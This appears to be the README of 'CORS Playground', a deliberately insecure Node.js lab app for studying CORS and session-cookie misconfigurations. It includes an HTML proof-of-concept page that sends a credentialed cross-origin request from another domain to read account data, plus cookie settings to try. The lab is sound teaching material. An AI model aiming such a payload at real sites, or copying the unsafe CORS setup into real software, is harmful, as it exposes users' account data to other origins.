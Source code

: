 ## CORS Playground
### Description

CORS playground provides a simple web application that you can utilise to enhance your comprehension of Cross Origin Resource Sharing. By default, it comes with CORS configured in a very unsafe way and could be easily exploited from different origins.

Observing how both CORS and the session's cookie behave under different configurations will greatly increase your knowledge of these two 
critical components of web application security, their common misconfigurations; exploitation and how to secure them properly.

### Default settings
CORS playground runs over https and listens on port number 5555

### URLs/endpoints
```http
POST /login.html
GET /main_page.html
GET /logout
GET /api/v2/accounts
GET /api/v1/accounts
```

### Example
The following is an example of running CORS playground and exploiting CORS misconfigurations from your local machine.

1. Add the following entries to the file /etc/hosts. You could use all these domains to test different values of the domain and SameSite cookie attribute.
```bash
## Domain for the CORS playground application itself.
127.0.0.1 playground.cors.test
## Same level domain as playground.cors.test.
127.0.0.1 project.cors.test
## Subdomain of playground.cors.test
127.0.0.1 pts.playground.cors.test
## parent domain .com.au
127.0.0.1 pts.playground.cors.test.com.au
## parent domain of playground.cors.test
127.0.0.1 cors.test                
## A totally different domain
127.0.0.1 another.domain.com
```
2. Run CORS playground with the command `nodejs app.js` (if running it for first time, first execute the command `npm install` to install the dependencies) then open up a browser to load `https://playground.cors.test:5555/` and log in.
3. Run an Apache web server over TLS.
4. Paste the following HTML code into a file named cors_attack.html (this file is also included in this repository) and save it on your apache webroot which by default is: `/var/www/html/`

```html
<!DOCTYPE html>
<html>
<head><meta charset="UTF-8"></head>
<body>
<script>
 var xhr = new XMLHttpRequest();
 xhr.onreadystatechange = function() {
  if (xhr.readyState == XMLHttpRequest.DONE) {
   console.log(xhr.response);
  }
 }
 url = 'https://playground.cors.test:5555/api/accounts';
 xhr.open('GET',url,true);
 xhr.setRequestHeader('CORS-playground','Penetration Testing Team');
 xhr.withCredentials = true;
 xhr.send();
</script>
</body>
</html>
```
5. Load the following url `https://another.domain.com/cors_attack.html` on a browser, the account information will be displayed on the browser console.
6. Use a http proxy such as Burp or the developer tools of the browser to observe the CORS requests/responses.
### Jump in

1. Add/delete/modify the attributes of the cookie generated within this application. Look for the line:
```node
res.cookie('session',randomvalue.toString(), { httpOnly: true, secure: true, sameSite: 'None'});
```
 Some settings you could try:
```node
res.cookie('session',randomvalue.toString(), {domain: '.playground.cors.test', httpOnly: true, secure: true, sameSite: 'Lax'});
res.cookie('session',randomvalue.toString(), { httpOnly: true, secure: true, sameSite: 'Strict'});
```
2. In the corsHandler function within the code of this application, uncomment the the section you'd like to play with and comment the remaining ones.
### References:
1. [CORS tutuorial](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS)
2. [Same Origin Policy tutorial](https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy)
3. [Cookies tutorial](https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies)
4. [portswigger CORS labs](https://portswigger.net/web-security/cors)
